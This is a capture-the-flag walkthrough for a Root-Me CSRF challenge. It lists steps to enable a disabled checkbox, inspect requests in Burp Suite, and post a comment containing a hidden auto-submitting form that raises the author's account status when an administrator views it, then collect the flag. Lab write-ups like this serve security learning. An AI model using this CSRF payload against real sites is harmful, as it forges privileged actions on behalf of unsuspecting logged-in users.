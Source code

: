 1. [Open the task](http://challenge01.root-me.org/web-client/ch22/index.php)
2. [Register an account](http://challenge01.root-me.org/web-client/ch22/index.php?action=register)
3. [Log in to your account](http://challenge01.root-me.org/web-client/ch22/index.php?action=login)
4. [Go to the profile page](http://challenge01.root-me.org/web-client/ch22/index.php?action=profile)
5. Make the checkbox visible through the developer tool

	It was: ```<input type="checkbox" name="status" disabled="">```

	Become: ```<input type="checkbox" name="status">```

6. Launch **Burp Suite::Proxy::HTTP history**
7. Click the **Submit** button and check the request data
8. [Go to the Contact tab](http://challenge01.root-me.org/web-client/ch22/index.php?action=contact)
9. Enter in the **email** field: **_"username"_** + **_"@mail"_**
10. Enter the following into the **Comment** form:

```
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data"> 
<input type="hidden" name="username" value="YOUR_USERNAME"> 
<input type="hidden" name="status" value="on"> 
</form> 
<script>document.csrf.submit()</script>
```

11. If everything is done correctly, you will see the following message: 

>Your message has been posted. The administrator will contact you later.

12. [Checking the Private tab](http://challenge01.root-me.org/web-client/ch22/index.php?action=private), you can get a **flag**
